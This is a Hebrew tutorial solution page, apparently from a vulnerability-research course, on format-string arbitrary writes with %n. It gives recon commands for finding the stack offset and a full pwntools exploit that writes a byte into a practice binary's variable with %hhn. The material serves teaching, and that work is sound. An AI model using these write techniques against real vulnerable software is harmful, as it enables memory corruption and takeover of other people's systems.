

repository: AmitPinchasi/amittech · page: מחקר-חולשות/5 - חולשות מחרוזת פורמט/5.3 - כתיבה שרירותית עם n/5.3 - כתיבה שרירותית עם n - פתרון/index.html · generator: mkdocs

## פתרון - כתיבה שרירותית עם n

נעבור תרגיל אחרי תרגיל עם הפקודות האמיתיות, הפלט הצפוי וה-exploit המלא. הכתובות שמופיעות כאן הן דוגמה - אצלכם `secret` עשוי לשבת בכתובת מעט שונה לפי גרסת המהדר, אז תמיד תשלפו אותה מהבינארי שלכם עם `nm` או מהשורה שהתוכנית מדפיסה, ולא תעתיקו עיוור.

### פתרון תרגיל 1 - סיור ומציאת offset

שליפת כתובת `secret`:

```bash
$ nm writeme | grep ' secret'
0000000000404060 B secret
```

והתוכנית מדפיסה את אותו הדבר בריצה:

```bash
$ echo | ./writeme
secret @ 0x404060
secret = 0x0
```

מציאת ה-offset. שולחים סמן ברור אחרי מפרידים:

```bash
$ python3 -c "print('AAAAAAAA' + '.%p'*8)" | ./writeme
secret @ 0x404060
AAAAAAAA.0x7ffd...e0.0x0.0x0.(nil).0x1.0x4141414141414141.0x2e70252e70252e70. ...
secret = 0x0
```

ה-`0x4141414141414141` (שמונה תווי `A`) הופיע ב-`%p` השישי, אז ה-`offset` שלנו הוא **6**. כלומר `%6$p` יקרא בדיוק את שמונת הבתים הראשונים של הקלט שלנו, ו-`%6$hn` יכתוב לכתובת שיושבת שם.

למה זה עבד: ב-x86-64 חמשת הארגומנטים הראשונים של `printf` מגיעים מהרגיסטרים `rsi..r9`, וה-`buf` על המחסנית הוא הארגומנט השישי. איך להכליל: המספר תלוי בבינארי ובמיקום הbuffer, אז תמדדו אותו בכל אתגר מחדש עם הטריק של רצף ה-`A`-ים.

### פתרון תרגיל 2 - כתיבת בית בודד עם %hhn

רוצים לכתוב `0x41` (65) לבית הנמוך של `secret`. נשים את הכתובת בסוף, מרופדת לalignment של 8, ונכוון את האינדקס:

```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./writeme')
secret = elf.symbols['secret']
offset = 6

FMT_QWORDS = 2                       # pad the format part to 16 bytes
addr_index = offset + FMT_QWORDS     # => 8

fmt = f'%65c%{addr_index}$hhn'.encode()   # print 65 characters, write a byte to the counter
fmt = fmt.ljust(FMT_QWORDS * 8, b'a')     # padding for alignment
payload = fmt + p64(secret)

p = process('./writeme')
p.recvline()
p.sendline(payload)
print(p.recvall(timeout=2).decode())
```

הפלט (מתעלמים ממרבצי התווים שהודפסו):

```text
secret = 0x41
```

למה זה עבד: `%65c` הביא את המונה ל-65, ואז `%8$hhn` כתב את הבית הנמוך של המונה (`0x41`) לכתובת שבארגומנט 8. בארגומנט 8 שמנו את `&secret`, כי חלק הformat תפס בדיוק 2 qwords (אינדקסים 6 ו-7) ואחריו התחיל בלוק הכתובות. איך להכליל: כל כתיבת נתח בודד היא בדיוק הצורה הזו - `%<רוחב>c%<idx>$hhn` כשהכתובת יושבת ב-idx.
